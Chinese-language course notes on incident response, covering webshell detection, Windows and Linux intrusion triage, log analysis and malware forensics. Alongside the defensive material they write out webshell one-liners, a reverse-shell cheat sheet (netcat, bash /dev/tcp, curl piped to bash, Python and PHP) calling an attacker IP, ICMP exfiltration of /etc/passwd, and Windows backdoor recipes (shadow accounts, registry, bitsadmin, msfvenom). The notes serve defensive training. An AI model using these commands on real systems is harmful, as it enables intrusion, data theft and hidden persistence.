

# 应急响应

## 课程内容

### 贵司IRE + 国家的IRE标准

### 系统、web、webshell应急

### 勒索、邮件钓鱼、水坑、踩点、鱼叉、钓鲸

### HW应急方案、红队的攻击思路解析


## 什么是应急响应

Incident Response/ Emergency Response，通常是指一个组织为了应对各种意外事件的发生所做的准备工作以及在突发事件发生时或者发生后所采取的措施。计算机网络应急响应的对象是指计算机或网络所存储、传输、处理的信息的安全事件，事件的主体可能来自自然界、系统自身故障（这里的系统包括主机范畴内的问题，也包括网络范畴内的问题)、组织内部或外部的人、计算机病毒或蠕虫等。


**应急处理：**

启动应急响应计划后，应立即采取相关措施抑制信息安全事件影响，避免造成更大损失。在确定有效控制了信息安全事件影响后，开始实施恢复操作。恢复阶段的行动集中于建立临时业务处理能力、修复原系统的损害、在原系统或新设施中恢复运行业务能力等应急措施。—―(信息安全应急响应计划规范GB/T 24363-2009 )


国家互联网应急中心：https://cert.org.cn

国家信息安全漏洞共享库：https://www.cnvd.org.cn/

中国反网络病毒联盟：https://www.anva.org.cn/

高校漏洞：https://src.sjtu.edu.cn/

安全客：https://www.anquanke.com/src


**为什么要做应急响应**

管理六要素：

-   解决方案
-   查漏补缺；
-   司法途径；
-   明确意图；
-   还原攻击；
-   保障业务；


世界上有两类公司类，一类是已经被黑察入侵的公司，另一类是被黑了却还不自知的公司。“怎么知道被黑了"和“被黑了怎么办"两个任务.既是妥善应对安全事件的必答题，也是应急响应的覆盖范围。


应急响应的目的是最快速度恢复系统的保密性、定整性和可用性，阻止和减小安全事件带来的影响：

-   定位并排除系统故障；
-   提高对网终黑客攻击的抵御和防范的规范程度
-   预防重大事件的发生；
-   提高组织对系统安全事件的快速反应和恢复能力
-   网络系统的性能优化
-   提供整体网络运行的健威以及趋势分祈


**应急响应声明周期**


**遏制：**

遏制(containmant)及时采取行动遏制事件发展。初步分析，重点确定适当的遏制方法，如隔离网络，修改所有防火墙和路由器的过滤规则，删除攻击者的登录账号，关闭被利用的服务或者关闭主机等，咨询安全政策;确定进一步操作的风险，控制损失保持最小，列出若干选项。讲明各自的风险，应该由服务对象来做决定。确保封锁方法对各网业务影响最小;通过协调争取各网一致行动，实施隔离;汇总数据，估算损失和隔离效果。


**遏制方法：**

-   针对受害资产所确定的范围进行隔离，包括网络隔离、关机、关闭服务持续监控网络及系统活动，记录异常流量的IP、域名、端口；
-   停止或者删除不正常账号、隐藏账号、更改高强度口令挂起或者关闭未授权的，可疑的应用程序和进程；
-   关闭不必要的、未知的和非法的服务；
-   关闭相应的共享；
-   删除系统各个用户下未授权的自启动程序；
-   使用反病毒软件或者其它的安全工具扫描、检查、清除病毒、木马、蠕虫、后门等可疑文件设置陷阱,如蜜罐系统,或者反攻攻击者的系统；


**根除方法：**

-   更改所有受影响的相关网络、系统、应用密码；
-   更新业务系统、中间件、操作系统、网络设备漏润补丁；
-   开启或者增强应用、系统防护功能，如安装更新杀毒软件病毒库，增强WAF、IPS防护级别对未受保护或者保扩怀够的系统增加新的防护措施；
-   增加或者提升对应系统的监控级别；


情报社区：https://x.threatbook.com/


## web应急响应

>   Webshell/暗链原理与实践


**黑客攻击网站简易流程**

1.  信息探测
2.  注入/XSS点
3.  获取数据
4.  破解密码
5.  登陆后台
6.  上传webshell
7.  提权控制服务器
8.  渗透内网

资源文章：https://cloud.tencent.com/developer/column/81887

注：webshell是没有进程的，它只是一个文件。 


Webshell在攻击过程中的作用：

-   文件操作
-   命令执行
-   数据库操作
-   用户提权
-   Shell反弹
-   权限维持

php webshell：https://github.com/Arrexel/phpbash


黑客通过那些途径上传webshell ?

-   漏洞
-   第三方组件
-   Web容器
-   拿到后台（各种姿势)

```
## 一句话木马 ##
<?php echo system($_GET['cmd1']);?>  # 这里cmd也可以不使用单引号包裹
<?php echo system($_POST['cmd1']);?> 
<%eval request("sb")%>
 
    
## 猥琐型 ##
<?php include 'shell.jpg';?>  # 包含并运行被包含的文件，包含文件可以是jpg,txt,png啥都行
```


什么是webshell：

以web服务端脚本（程序）形式存在，与传统服务端脚本的运行原理相同。对服务器本地资源具备一定的操作能力，其操作本地资源的范围取决于**解析器（如：apache）**的权限。


功能原理：

文件操作时，调用的相关函数有：fwrite、rmdir、mkdir、opendir；

命令执行：exec、system；

其他功能：phpinfo


webshell特征：

webshell的基本特征：

-   本地资源操作：
    -   读取软硬件信息；
    -   本地硬盘文件的读写操作；
    -   调用本地命令；
-   无上下级链接（即referer）：
    -   无外部连接可连接至webshell；
    -   webshell通常不连接本地其他文件；
-   传参数，认证登录，?cmd=ls
-   POST类型，需要webshell管理工具；


抓包分析一波，指定一波webshell的流量，即Caidao、蚁剑、冰蝎、c刀等的流量特征；


检测webshell的几种方法：

-   思考：

    -   webshell是有名字的；
    -   webshell是会在日志当中留下痕迹的；
    -   webshell是有属性的；
    -   webshell是一种脚本功能的展现，即文本显示；

-   方法：

    -   web扫描、爬虫、google hack检测（效率低）；

    -   基于web日志的检测；

        

        

    -   基于文件属性的检测；

        -   文件创建日期
        -   文件最后修改日期
        -   文件的目录结构及MD5值
        -   特殊目录中的特殊类型文件

    -   基于文件内容的检测；

        

        

        针对webshell的各种特征码的小工具：NepPi、D盾(webshell)、linuxcheck、webshellkiller、fastsum md5校验。

    -   基于文件名搜索检测webshell；


webshell查杀最佳实践：

-   目录结构md5校验；
-   特征码扫描；
-   页面title、页面关键字；
-   流量的人工识别(关键banner)；


webshell查杀工具，牧云：https://github.com/chaitin/cloudwalker，这里检查的是目录里面的内容。


webshell防范最强准则：

-   可写的目录不可执行；
-   可执行的目录不可写；


### web事件类别

-   网络攻击事件
-   恶意程序事件
-   WEB恶意代码
-   信息破坏事件
-   其他安全事件


阿里云应急响应白皮书：https://help.aliyun.com/document_detail/53549.html


**网络攻击事件：**

-   安全扫描攻击：黑客利用扫描器对目标进行漏洞探测，并在发现漏洞后进一步利用漏洞进行攻击；
-   暴力破解攻击：对目标系统账号密码进行暴力破解，获取后台管理员权限；
-   系统漏洞攻击：利用操作系统、应用系统中存在漏洞进行攻击
-   WEB漏洞攻击：通过SQL注入漏洞、上传漏洞、Xss漏洞、授权绕过等各种wEB漏洞进行攻击
-   拒绝服务攻击：通过大流量DDOs或者CC攻击目标，使目标服务器无法提供正常服务
    其他网络攻击行为；


**恶意程序事件：**

-   病毒、蠕虫：造成系统缓慢，数据损坏、运行异常；
-   远控木马：主机被黑客远程控制；
-   僵尸网络程序(肉鸡行为)：主机对外发动DDOS攻击、对外发起扫描攻击行为；
-   挖矿程序：造成系统资源大量消耗；


**WEB恶意代码：**

-   Webshell后门：黑客通过webshell控制主机；
-   网页挂马：页面被植入待病毒内容,影响访问者安全；
-   网页暗链：网站被植入博彩、色情、游戏等广告内容；


web入侵响应：


**入侵响应技术点：**

-   http协议分析：报文头部、http方法、http状态码；

-   各种服务web日志存放位置；

    

-   web日志记录的内容：
    -   目录扫描一般有HEAD协议；
    -   登录一般是200后面跟上一个302响应码；
    -   sql注入一般有XXX变量类型转换失败；
    -   文件上传一般是post之后访问一个文件，并且一般响应200；


**取证及工具：**

-   工具携带；
-   ip保存；
-   验证留存；
-   沟通；
-   第三人；
-   保护现场；


取证注意事项：


**处理工程：**

-   开始：
    -   日志提取；
    -   日志分析；
-   过程：
    -   关联分析（头脑风暴）；
    -   数据支持；
-   结果：
    -   回溯攻击；
    -   查找本源；


**搜索引擎劫持：**

当你直接打开网址访问网站，是正常的，可是当你在搜索引擎结果页中打开网站时，会跳转到一些其他网站，比如博彩，虚假广告，淘宝搜索页面等。是的，你可能了遇到搜索引擎劫持。


现象描述：

从搜索引擎来的流量自动跳转到指定的网页。

问题处理：

通过对index.php文件进行代码分析，发现该文件代码对来自搜狗和好搜的访问进行流量劫持。进一步跟着include函数包含的文件，index,php包含/tmp/.ICE-unix/ . . /c.jpg。

进入/tmp目录进行查看，发现该目录下，如c.jpg等文件，包含着一套博彩劫持的程序。


### 常见反弹shell

```
netcat:
netcat -lvvp 2333  # 攻击机
# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
netcat 47.xxx.xxx.72 2333 -e /bin/bash

bash:
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
或
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1   # 	0>&1:将标准输入与标准输出的内容相合，然后重定向给前面标准输出的内容。

curl配合bash反弹shell：
在攻击者的web命令下创建一个index文件
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
然后在目标机上执行以下命令即可反弹shell：
curl 47.xxx.xxx.72|bash

利用Telnet反弹shell
当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

Python 脚本反弹shell：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php 脚本反弹shell：
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'

msf生成反弹shell木马文件。
```

详情参考：https://xz.aliyun.com/t/9488#


## windows应急响应


### 被入侵之后的排查思路：

**检查账号安全**

-   调取账号口令列表，检查弱口令账户（需要去跟客户获取）；

-   检查高权限组中是否存在越权账户（如果一个用户对某个应用拥有完全控制的全选，但是这个应用存在漏洞时，这时就可以使用该应用进行一个提权）

-   通过注册表查看隐藏克隆账户

    ```
    HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
    ```


**查看最近系统的登录情况**

将事件查看器中的安全日志导出，windows直接右键win图片，就可以看到时间查看器了。


拷贝到运维机器，然后用Log Parser进行分析，例如将日志导出为1.evtx存放到c分区后执行命令

```
Logparser.exe -i:EVT "select TimeGenerated as logintime, EXTRACT_TOKEN(strings, 5, '|') as username from c:\1.evtx where EventID=4624"
```


**EVENT ID对应的事件：**

| ID   | 描述                         |
| ---- | ---------------------------- |
| 4624 | 登录成功                     |
| 4625 | 登录失败                     |
| 4634 | 注销成功                     |
| 4647 | 用户启动的注销               |
| 4672 | 使用超级用户（如管理员）登录 |
| 4720 | 创建用户                     |


**4624事件中的登录类型：**

| 登录类型 | 描述                             | 说明                                             |
| -------- | -------------------------------- | ------------------------------------------------ |
| 2        | 交互式登录（interactive）        | 用户在本地进行登录                               |
| 3        | 网络（network）                  | 最常见的情况就是连接到共享文件夹或共享打印机时。 |
| 4        | 批处理（batch）                  | 通常表明某计划任务启动。                         |
| 5        | 服务（Service )                  | 每种服务都被配置在某个特定的用户账号下运行。     |
| 7        | 解锁（unlock）                   | 屏保解锁                                         |
| 8        | 网络明文（NetworkCleartext）     | 登录的密码在网络上是通过明文传输的，如FTP。      |
| 9        | 新凭证（NewCredentials )         | 使用带/Netonly参数的RUNAS命令运行一个程序。      |
| 10       | 远程交互( Remotelnteractive )    | 通过终端服务、远程桌面或远程协助访问             |
| 11       | 通过终端服务、远程桌面或远程协助 | 以一个域用户登录而又没有域控制器可用             |


**检查可疑端口与进程：**

使用netstat命令查看网络端口信息：netstat -ano


主要留意可以监听端口号与ESTABLISHED连接，然后通过PID查询进程。


查询PID: 1232对应的程序：


使用systeminfo命令可以查看当前系统中的一些信息，比如补丁、硬件信息等；

拿到我们其中的信息之后，可以使用[极光无线](https://detect.secwx.com/)对其进行扫描，看看是否存在exp漏洞。


**确认进程详细信息：**

打开系统信息`msinfo32`，确认进程详细信息（这里也可以使用火绒剑），通过查询工作日志，确认进程是否存在异常启动。


**第三方软件辅助排查**

使用d盾，重点审查没有签名的进程


一般是D盾与火绒剑配合进行使用。


### ICMP应用

-   tracert；

-   ping；

-   hping3，该命令可以反弹shell；

    ```
    hping3 -I eth0 -S 192.168.0.103 -p 80   # 探测192.168.0.103机器的80端口是否开放，RA表示关闭，SA表示端口是开启
    ```

-   fping；


ping文件的传输，一般用于突破防火墙。


Webshell后门与传统后门的差异及危害；

下面这项技术可以用于绕过防火墙进行文件的传输：

```
xxd -p -c 4 /etc/passwd | while read line; do ping -c 1 -p $line 192.168.2.24;done   # 向192.168.2.24机器上以ping的方式传递/etc/passwd文件的内网，这种方式使用netstat是无法察觉的，只有通过流量的形式进行发现。
```

监听脚本为：

```python
import sys

try:
    from scapy.all import *
except:
    print("Scapy no install, please install scapy:'pip install scapy'")
    sys.exit(0)

def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True,end="",sep="")

sniff(iface="en0", prn=process_packet)
```


**工具icmpsh、nishang介绍：**

内部网络中的大多数系统位于防火墙和公司代理之后，以控制入站和出站Internet流量。防火墙可以阻止反向连接并绑定TCP连接。但是，大多数时候允许ICMP通信。因此，可以将此协议用作隐蔽通道，以便获得外壳程序并在目标主机上远程执行命令。

这是一项古者的技术，在受限的环境中太多数时候都使用它来接收外壳,但是如今,随着Red Team参与的扩散,它可以用作另种通过使用ICMP流量和绕过出口过滤来执行命令的方法。


该工具一般配合Nishang进行使用，可以进行命令的反弹。https://github.com/samratashok/nishang

nishang工具建议去使用一下，可以做一些免杀。

vps/vpn获取：

-   https://njal.la/
-   https://www.godaddy.com/，买域名与vps不需要进行备案


**进程排查思路：**

-   没有签名验证信息的讲程
-   没有描述信息的进程,进程的启动用户
-   进程的路径是否合法
-   CPU或内存资源占用长时间过高的进程


**合法端口号列表：**

可以在系统中找到服务文件，查询端口号是否合法，文件路径位于：

```
C:\Windows\System32\drivers\etc\services
```


**检查系统启动项：**

-   使用火绒剑、autoruns；

-   打开msconfig，查看启动项； 

    

-   注册表编辑器，查看路径。

    ```
    HKEY_LOCAL_MACHINE\SOFTNARE\Microsoft\windows\CurrentVersion\Run
    ```

    

    其他注册表启动项：

    ```
    HKEY_CURRENT_USER\Software\Micorsoft\windows\CurrentVersion\run
    HKEY_LOCAL_MACHINE\Software\Microsoft\windows\CurrentVersion\Runonce
    ```

-   打开本地组策略，域环境还需检查DC上的组策略，gpedit.msc本地组策略，查看是否存启动脚本；

    

-   查看所有任务计划，比对工作纪录；管理工具中打开任务计划，还要在cmd中执行at检查计划。

-   在服务管理中查看启动类型，打开services.msc检查启动类型为“自动”的服务；


**检查可疑文件：**

-   查找用户最近使用的文件和目录，在运行中输入用户名\recent

    ```
    C: \Users\zhangsan\Recent
    C: \Users\administrator\Recent
    ```

    如果得到webshell或木马的创建时间，就根据这个时间进行文件搜索。

-   使用第三方软件对注册表进行排查，打开Registry_Workshop工具搜索注册表中某段时间修改的项；


**自动化查杀：**

使用多个查杀平台对系统进行扫描：


## Linux IRE

### 入侵检查框架

1、系统安全检查(进程、开放端口、连接、日志等)

​	这一块是目前个人改脚本所实现的功能

2、Rootkit
​	建议使用rootkit专杀工具来检查,如rkhunter、clamAV

3、Webshell
	这一块查杀技术难度相对较高，不是本脚本所需要实现的功能,针对这一块的检查可以使用D盾来检查(Linux下可以将web目录挂载到Windows下进行检查)
4、Web日志

5、流量
	这一块主要侧重主机的长期的流量分析,目前个人使用tshark、tcpdump实现了基础的流量分析，后期会进行相应的完善。流量这一块可以提取流量五元组（源ip、源端口、目的ip、目的端口、第四层通话协议）、DNS流量、HTTP流量再结合威胁情报的数据进行深度分析。这个后期个人会进行相关的尝试，可能的话会进行相应内容的分享。


检测顺序：


### 账号安全

1、用户信息

```
/etc/passwd 
root:x:0:0:root:/root:/bin/bash
account:password:UID:GID:GECOS:directory:shell
用户名:密码:用户ID:组ID:用户说明:家目录:登陆之后shell注意:无密码只允许本机登陆，远程不允许登陆
```


2、影子文件/etc/shadow

```
root:$6$oGs1PqhL2p3ZetrE$X7o7bzoouHQVSEmSgsYN5UD4 kMHx6qgbTqwNVC5oOAouxvcjQSt.Ft7q11wpkopYeuv 9ajBwJt1DpYxTCWI/:16809:e:99999:7:::

用户名:加密密码:密码最后一次修改日期:两次密码的修改时间间隔:密码有效期:密码修改到期到的警告天数:密码过期之后的宽限天数:账号失效时间:保留
```

who查看当前登录用户(tty本地登陆pts远程登录)

w查看系统信息，想知道某一时刻用户的行为

uptime查看登陆多久、多少用户，负载


**检查账号中的危险信息：**

1、查询特权用户特权用户(uid为0)

```shell
awk -F : '$3==0{print $1}' /etc/passwd
```

2、查询有密码可以远程登录的帐号信息

```shell
awk -F : '$3==0{print $1}' /etc/passwd
```

3、除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限

```shell
more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```


**检查账号执行过的系统命令:**

在账户家目录中检查该账户执行过的命令：

-   bash_history
-   保存10000条历史记录
-   sed -i 's/^HISTSIZE=1800/HISTSIZE=10000/g' /etc/profile

历史操作命令的清除：history -c

但此命令并不会清除保存在文件中的记录，因此需要手动删除.bash_profile文件中的记录

cat /root /.mysql_history >/tmp/root_sql_history.txt


**检查异常端口：**

查看可以端口连接对应的程序：

-   检查端口连接

    ```shell
    netstat -tlanp | more
    ```

    

-   根据PID查看进程文件

    ```shell
    ls -l /proc/ 73730/exe   # /proc/目录下面存在Linux当前正在运行的所有的进程，可以进入其中查看详细的进程信息
    ```

    

    

    这种方法非常管用，在查杀木马时往往会有意想不到的效果；


**查看进程的状况**

排查进程启动时间，CPU占用，内存占用

启动时间排序

```shell
ps	aux --sort=+start
```

CPU占用排序

```shell
ps	aux --sort=+%CPU
```

内存点用排序

```shell
ps	aux --sort=+rss
```


**排查启动脚本**

检查启动级别目录中存在的脚本

-   检查目录/etc/rc.d/rc0~6.d目录中的脚本；
-   检查目录/usr/lib/systemd/system/；


**查看计划任务**

-   查看计划任务列表：crontab -l
-   查看计划任务目录
    -   /var/spool/cron/*
    -   /etc/crontab
    -   /etc/cron.d/*
    -   /etc/cron.daily/*
    -   /etc/cron.hourly/*
    -   /etc/cron.monthly/*
    -   /etc/cron.weekly/*
    -   /etc/anacrontab
    -   /var/spool/anacron/*
-   查看一次性计划任务
    -   at -l


**检查开机自启动服务**

列出那些服务随开机启动

```
systemctl list-unit-files | grep enabled
chkconfig --list # centos7之下
```


**查找可以文件**

1、查找root最近20天修改过的文件

```
find /etc -iname "*" -ctime +20 -type f
```

2、查找有粘滞位的文件，可以用来提权使用

```
find / -perm u=s   # 原理有些复杂，可以去看一下视频材料
```

3、查找可执行的文件

```
find / perm a=x -type f
```


### **通过查看日志找出渗透时间点**

kali的安全日志文件：/var/log/auth.log，centos是：/var/log/secure

1、定位有多少IP在爆破主机的root帐号：

```shell
grep "Failed password for root" /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

2、定位有那些ip在爆破

```shell
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c
```

3、爆破用户名字典是什么？

```shell
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```

4、登录成功的IP有哪些：

```shell
grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

5、	登录成功的日期、用户名、IP：

```shell
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
```


**日志中关键安全记录**

1、增加一个用户

```shell
Jul 10 00:12:15 localhost useradd[2382]: new group: name=kali, GID=1001
Jul 10 00:12:15 localhost useradd[2382]: new user: name=kali, UID=1001, GID=1001, home=/home/kali,shell=/bin/bash
Jul 10 00:12:58 localhost passwd: pam_unix(passwd:chauthtok): password changed for kali

# grep "useradd" /var/log/secure
```

2、删除用户kali日志：

```shell
Jul 10 00:14:17 localhost userdel[2393]: delete user 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed group 'kali' owned by 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed shadow group 'kali' owned by 'kali'
# grep "userdel" /var/log/secure
```

3、su切换用户：

```shell
Jul 10 00:38:13 localhost su: pam_unix(su-l:session): session opened for user good by root(uid=0)

sudo授权执行:

sudo -l
Jul 10 00:43:09 localhost sudo:   good : TTY=pts/4 ; PWD=/home/good ; USER=root ; COMMAND=/sbin/shutdown -r now
```


### **案例SSH暴力破解**

1、TCP初始化连接三次握手吧：发SYN包，然后返回SYN/ACK包，再发ACK包，连接正式建立。但是这里有点问题，当请求者收到SYS/ACK包后，就开始建立连接了，而被请求者第三次握手结束后才建立连接。

2、客户端TCP状态迁移: CLOSED->SYN_SENT->ESTABLISHED->FIN_WAIT_1->FIN_WAIT_2->TIME_WAIT-> CLOSED；服务器TCP状态迁移:

CLOSED->LISTEN->SYN recv->ESTABLISHED->CLOSE_WAIT->LAST_ACK->CLOSED

3、当客户端开始连接时，服务器还处于LISTENING，客户端发一个SYN包后，服务端接收到了客户端的SYN并且发送了ACk时，服务器处于SYN_RECv状态，然后并没有再次收到客户端的ACk进入ESTABLISHED状态，一直停留在SY_RECV状态。


日志分析：

-   系统账号情况
-   确认攻击情况
-   管理员最近登录情况


处理措施：

1、禁止向公网开放管理端口，若必须开放应限定管理IP地址并加强口令安全审计(口令长度不低于8位，由数字、大小写字母、特殊字符等至少两种以上组合构成)。

2、更改服务器ssh默认端口。

3、部署入侵检测设备，增强安全防护。

**最有效的办法采用密钥方式，ssh限制登录次数**


比较常用的爆破工具是：hydra（九头蛇爆破）


### **案例捕获短链接**

短连接(short connnection)是相对于长连接而言的概念，指的是在数据传送过程，只在需要发送数据时才去建立一个连接，数据发送完成后，则断开此连接，即每次连接只完成一项业务的发送。在系统维护中一般很难去察觉，需要借助网络安全设备或者抓包分析才能够去发现。


处理措施：

1.  访问控制；
2.  /proc/$pid/exe     # 短连接主要就是这里的$pid会发生改变


### 案例 挖矿病毒

分析，特征：

-   CPU使用率
-   内核被优化
-   主动外链进程
-   挖矿入侵者手法太多数都是利用公开漏洞，未授权、爆破、弱口令
-   抓矿池IP


修复方案：

1、尽量关闭不必要的端口，如∶445、135，139等，对3389端口可进行白名单配置，只允许白名单内的IP连接登陆。

2、尽量关闭不必要的文件共享，如有需要，请使用ACL和强密码保护来限制访问权限，禁用对共享文件夹的匿名访问。

3、采用高强度的密码，避免使用弱口令密码，并定期更换密码。建议服务器密码使用高强度且无规律密码，并且强制要求每个服务器使用不同密码管理。

4、对没有互联需求的服务器/工作站内部访问设置相应控制，避免可连外网服务器被攻击后作为跳板进一步攻击其他服务器。

5、建议全网安装终端防御


### 工具

-   Rootkit检测：
    -   rkhunter chkrootkit；
    -   Lynis GScan；
-   Webshell检测：
    -   河马webshell查杀；
    -   cloudwalker长亭牧云；
    -   WebShellkiller；
    -   scan_webshell；
-   logParser 日志分析针对windows；
-   D盾、火绒剑配合还是不错的


勒索病毒应急响应自救手册：https://mp.weixin.qq.com/s/L_gNPPi0i1Op7WHbmMaEng

360勒索病毒解密：https://lesuobingdu.360.cn/

深信服勒索解密工具：https://mp.weixin.qq.com/s?__biz=Mzg2NjgzNjA5NQ==&mid=2247514408&idx=1&sn=414000f71bc545e03dc1851f91bff658&source=41#wechat_redirect


内网代理：NPS 	

### 实验，DDOS木马

-   如何发现？

-   如何处理？

-   上级内容：

    libc.so.6文件删除，添加ssh后门木马，创建计划任务c2

    改环境变量，创建基本命令启动后门，植入木马


# 恶意代码分析及取证

### webshell介绍

Webshell的核心在于命令执行及数据传递，如:

1、利用Runtime.getRuntime().exec(cmd)执行cmd命令

2、利用java.io.InputStream和OutputStream下载文件

3、利用文件/数据库操作函数，控制文件/数据库等


**无回显**

最简单的Webshell如图，通过执行传入的i参数可执行任意命令：

```java
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```


**有回显带验证**

更进一步，较为常见的 webshell如图，其利用pwd,参数控制权限,利用exec函数执行从cmd.参数中获取到的指令,并将执行结果回显出来。


**远程执行下载文件**
该WebShell 只有下载文件的功能，无法执行系统命令。通过传入文件名称和文件下载URL执行下载功能。


**其他类型**
其他类型的木马都是在核心函数基础上添加额外的功能，方便使用，如菜刀的木马核心流程如图


**war包**


生成war包命令：

```
jar -cvf shell.war jsp/
```


### 取证

1、访问日志

-   web文件访问特征

    

-   webshell利用记录

    

2、文件特征

3、流量特征


涉及资源：https://www.aliyundrive.com/drive/folder/63e3a552c7cd4122264e416c9df652c0479607f1


# windows操作系统后门

详细的操作文档请看：https://www.cnblogs.com/zhaoyunxiang/p/16662171.html

设计到操作注册表时，可以使用autoruns、火绒剑等工具进行分析；

### 影子账户

创建隐藏账户的方式：

建议直接查看资源：https://www.cnblogs.com/f-carey/p/16668444.html#tid-tSxG4A

1.  创建一个隐藏账户"net user test$ password /add"，隐藏账户无法使用"net user"命令查看，但是可以在"本地用户和组"里面查看。

2.  打开注册表"HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/Names"找到创建的隐藏账户（test$）,在这个注册表里面可以看见test$账户的类型，同样可以查看计算机Administrator账户的类型

    注：这里如果在SAM当中没有Domains这个目录时，请更改当前用户的权限，确保当前用户拥有完全控制的权限；

    

3.  回退注册表"HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/Names"到上一级"HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/"，找到Administrator对应目录000001F4，双击"F"复制里面的值，然后找到test$账户对应的目录000003EC，双击"F"后把刚才复制的值粘贴进去，

4.  在注册表中导出"HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/Names"下的test$和"HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/"下的000003EC，然后在命令行中运行命令"net user test$ /del"删除test$用户。

5.  导入上一步导出的两个注册表文件，就可以创建影子账户test$，该账户只有在注册表中才能看到。


### 注册表后门

1、Run注册表后门

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`下的键值即为开机启动项，每一次开机都会执行对应的程序或bat脚本。


2、Logon Scripts后门

Logon Scripts是优先于很多杀毒软件启动的，所以可以通过这种方式达到一定的免杀效果，`HKEY_CURRENT_USER/Enviroment`下新建字符串值UserInitMprLogonScript，值设为想要执行的程序或bat脚本的路径，修改后注销重新登录后执行脚本。


3、Userinit注册表后门

Userinit的作用是用户在进行登录初始化的设置时，会执行指定的程序，可以修改`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\winlogon\Userinit`的键值来添加要执行的程序，多个程序用逗号隔开，注销登录后执行。


### 计划任务后门

1、windows实现定时任务主要有schtasks与at两种方式，均可用于计划在某个日期和时间执行程序和脚本，其中at命令在win8之后不在支持。

schtasks命令，创建一个名为test的计划任务每天12:00执行test.bat脚本：

```shell
schtasks /create /tn test /sc DAILY /st 12:00 /tr C:\test.bat /F
# /tn   taskname 以路径/名称形式指定
# /sc   starttime 指定开始时间
# /tr   taskrun  指定在这个计划时间运行的进程路径
# /F    如果指定的任务已经存在，则强制创建任务并抑制警告
```


2、at命令，创建一个周一到周五12:00执行的test.bat的计划任务：

```shell
at 12:00/every:Monday,Tuesday,Wednesday,Thursday,Firday c:\test.bat
```


### Bitsadmin后门

Bitsadmin后台智能传输服务，是一个windows组件，从win7之后操作系统默认自带，它可以利用空闲的带宽在前台或后台异步传输文件，并支持在重新启动计算机或重新连接网络后自动回复文件传输，常用于WindowsUpdate的安装更新，攻击者可以利用它的特性在被控制的计算机上面持久运行。

```shell
bitsadmin /creat [type] DisplayName 创建一个任务
bitsadmin /cancel <job> 删除一个任务
ditsadmin /complete <job> 完成某个任务
ditsadmin /Resume <job> 激活传输队列中的新任务或挂起的任务
bitsadmin /list /allusers /verbase 列出所有任务
bitsadmin /reset /allusers 删除所有任务
bitsadmin /Addfile <job> <RemoteURL> <localName> 给任务添加下载文件
bitsadmin /SetNotifyCmdLine <job> <ProgramName> [ProgramParameters] 设置在任务完成传输
```


bitsadmin 后门创建

1.  创建任务名为：test

    ```
    bitsadmin /create test
    ```

2.  远程文件下载到本地

    ```
    bitsadmin /addfile test http://ip/test.txt "c:\test.txt"
    
    python搭建服务：
    python -m http.server 9999
    ```

3.  文件下载完成执行命令

    ```
    bitsadmin /SetNotifyCmdLine test "%COMSPEC%" "cmd.exe /c calc.exe"
    ```

4.  执行任务

    ```
    bitsadmin /resume test
    ```

5.  完成任务

    ```
    bitsadmin /complete test
    ```

6.  如果没有执行"bitsadmin /complete test"命令，即使重启系统任务依然存在，重启后等待几秒后还会执行。


### msf后门

MSF后门模块

1、MSF留后门的两种方式：

-   Metsvc：通过服务启动，会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动启动。
-   Persistence：通过启动项启动，在目标机器上以反弹回连方式来连接服务器。


2、首先获取Meterpreter shell,使用Msfvenom生成反弹shell 木马，然后在目标机器上执行木马程序后去shell。

1.  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=1234 -f exe >/tmp/shell.exe
2.  msf6>use exploit/multi/handler
3.  msf6>set payload windows/metsvc_bind_tcp 
4.  msf6>set lport 31337
5.  msf6>set rhost 192.168.1.103
6.  msf6>run


### WMI型后门

1、wmic startup list full 自启动的程序

2、wmic process call create "calc.exe" 在当前机器中执行指定程序

3、wmic process where(description="rundll32.exe")查看rundll32所加载的dll

4、wmic cpu get DataWidth /format:list 查询当前机器的操作系统位数

5、WMI的事件分两类：

1.  本地事件：有生命周期，为进程宿主的周期
